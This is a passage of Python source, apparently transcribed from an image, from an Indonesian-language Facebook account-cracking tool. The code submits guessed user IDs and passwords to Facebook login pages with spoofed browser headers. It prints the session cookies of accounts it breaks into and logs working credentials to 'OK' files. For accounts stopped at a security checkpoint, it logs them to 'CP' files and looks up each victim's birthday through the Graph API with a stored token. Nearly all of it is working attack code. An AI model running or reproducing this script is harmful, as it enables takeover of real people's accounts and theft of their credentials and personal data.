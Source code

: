 			s.headers.update({"Host":re.findall("//(.+)",url)[0],"x-fb-lsd":data.get("lsd"),"content-type":"application/x-www-form-urlencoded","accept":"*/*","user-agent":ua,"referer":url+"/login/?next&ref=dbl&fl&refid=8","origin":url,"accept-encoding":"gzip, deflate","accept-language":"id-ID,en-US;q=0.9"})
		else:
			if "mbasic.facebook.com" in url:
				hea="text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8"
			else:
				hea="text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"
		s.headers.update({"Host":re.findall("//(.+)",url)[0],"sec-fetch-user":"?1","upgrade-insecure-requests":"1","content-type":"application/x-www-form-urlencoded","cache-control":"max-age=0","accept":hea,"origin":url,"user-agent":ua,"referer":url+"/login/?next&ref=dbl&fl&refid=8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
		po=s.post(log_in,data=data)
		if "c_user" in s.cookies.get_dict().keys():
			kukis = ";".join([e+"="+v for e,v in s.cookies.get_dict().items()])
			print("\r  %s* --> %s|%s|%s"%(H,uid, pw, kukis))
			ok.append("%s|%s"%(uid, pw))
			open("OK/%s.txt"%(tanggal),"a").write("  * --> %s|%s\n"%(uid, pw))
			break
		elif "checkpoint" in s.cookies.get_dict().keys():
			try:
				token=open("token.txt","r").read()
				ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token)).json()["birthday"]
				month, day, year = ttl.split("/")
				month = bulan[month]
				print("\r  %s* --> %s|%s|%s %s %s"%(K,uid, pw, day, month, year))
				cp.append("%s|%s"%(uid, pw))
				open("CP/%s.txt"%(tanggal),"a").write("  * --> %s|%s|%s %s %s\n"%(uid, pw, day, month, year))
				break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")
			except:pass
			print("\r  %s* --> %s|%s         "%(K,uid, pw))
			cp.append("%s|%s"%(uid, pw))
			open("CP/%s.txt"%(tanggal),"a").write("  * --> %s|%s\n"%(uid, pw))
			break
		else:
			continue

	loop += 1

def buatfolder():
	try:os.mkdir("CP")
	except:pass
	try:os.mkdir("OK")
	except:pass

if __name__ == '__main__':
	os.system("git pull")
	buatfolder()
	menu()
